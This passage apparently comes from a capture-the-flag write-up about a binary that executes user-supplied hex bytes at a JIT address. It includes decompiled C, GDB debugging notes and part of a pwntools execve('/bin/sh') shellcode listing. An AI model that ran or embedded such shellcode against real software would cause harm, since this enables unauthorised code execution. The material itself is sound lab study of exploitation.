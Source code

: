 ![screenshot2](screenshots/sc2.png)

So it's going to do something with our input (specifically, `strtol` is called to convert two characters at a time to hex), then it's going to call `process_bb` which does *something* and then we are apparently ready to execute:

```c
      puts("Executing...");
      prepare_enter_jit();
      (*(code *)&DAT_13371337000)();
```

So, it's going to jump to code at 0x13371337000, very cool. Presumably it puts the code we enter at this address? We should check, just to be sure.

poking around in gdb
-----

I'm going to spend pretty much the rest of the write-up just poking at this program in GDB. I should note that breakpoints in the 0x13371337000 JIT segement
don't seem to work correctly because we are overwriting this code after the breakpoint gets placed -- so we will place our breakpoints in the locations that we jump back into the JIT (like the `(*(code *)&DAT_13371337000)();` call above)

Here, I'll use the shellcode that pwntools generates as a test:
```
    /* execve(path='/bin///sh', argv=['sh'], envp=0) */
    /* push b'/bin///sh\x00' */
    push 0x68
    mov rax, 0x732f2f2f6e69622f
    push rax
    mov rdi, rsp
    /* push argument array ['sh\x00'] */
    /* push b'sh\x00' */
    push 0x1010101 ^ 0x6873
    xor dword ptr [rsp], 0x1010101
    xor esi, esi /* 0 */
    push rsi /* null terminate */
    push 8
    pop rsi
    add rsi, rsp
```